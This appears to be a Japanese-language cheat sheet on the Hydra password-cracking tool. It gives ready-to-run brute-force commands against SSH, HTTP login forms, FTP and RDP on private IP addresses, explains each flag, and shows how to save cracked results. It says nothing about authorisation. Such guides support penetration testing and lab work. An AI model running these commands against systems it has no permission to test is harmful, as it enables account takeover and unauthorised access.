 

## Hydraの使い方

Hydraは、ログイン認証をクラックするためのパスワードクラッキングツールです。特にHTTP、FTP、SSHなど多くのプロトコルに対応しています。

### 1. 基本的な構文

```bash
hydra [オプション] [ターゲットIP] [プロトコル]
```
2. SSHに対するブルートフォース攻撃の例
特定のユーザー名とパスワードリストを使ってSSHサーバーに対してブルートフォース攻撃を行う例です。

```bash
hydra -l username -P /path/to/passwordlist.txt ssh://192.168.1.100
```
- -l username: 攻撃対象のユーザー名を指定します。
- -P /path/to/passwordlist.txt: 使用するパスワードリストのパスを指定します。
- ssh://192.168.1.100: 攻撃対象のSSHサーバーのIPアドレスを指定します。
3. HTTPフォームへのブルートフォース攻撃の例
特定のウェブサイトのログインフォームに対してブルートフォース攻撃を行う例です。

```bash

hydra -l admin -P /path/to/passwordlist.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
```
- http-post-form:HTTP POSTリクエストでフォームを送信します。
- /login.php: ログインフォームのあるページのパスを指定します。
- username=^USER^&password=^PASS^: フォームの入力フィールド名を指定し、^USER^と^PASS^でそれぞれユーザー名とパスワードが置き換えられます。
- F=incorrect: ログイン失敗時に表示される文字列を指定します。


4. FTPへのブルートフォース攻撃の例
FTPサーバーに対してブルートフォース攻撃を行う例です。

```bash
hydra -l anonymous -p ftp_password 192.168.1.100 ftp
```
-p ftp_password: 使用する単一のパスワードを指定します。
5. RDPへのブルートフォース攻撃の例
WindowsのRDP（リモートデスクトップ）サービスに対してブルートフォース攻撃を行う例です。

```bash

hydra -t 1 -V -f -l administrator -P /path/to/passwordlist.txt rdp://192.168.1.100
```
- -t 1: 1つのスレッドで攻撃を行う（リモートデスクトップのブルートフォース攻撃では推奨される設定）。
- -V: 攻撃の進行状況を表示します。
- -f: パスワードが見つかったら停止します。
6. Hydraの結果を出力ファイルに保存する
攻撃結果をファイルに保存するには、-oオプションを使用します。

```bash
hydra -l username -P /path/to/passwordlist.txt ssh://192.168.1.100 -o results.txt
```
- -o results.txt: 結果をresults.txtに保存します。

```bash
hydra -L user.lst -e nsr ftp://10.0.10.13
```
- -L：ユーザリストファイルの指定
- -e nsr：nは"null"で空欄を設定、-sは"same"でユーザ名と同じパスワードを設定、-rは"reverse"でユーザ名を逆転したパスワードを設定
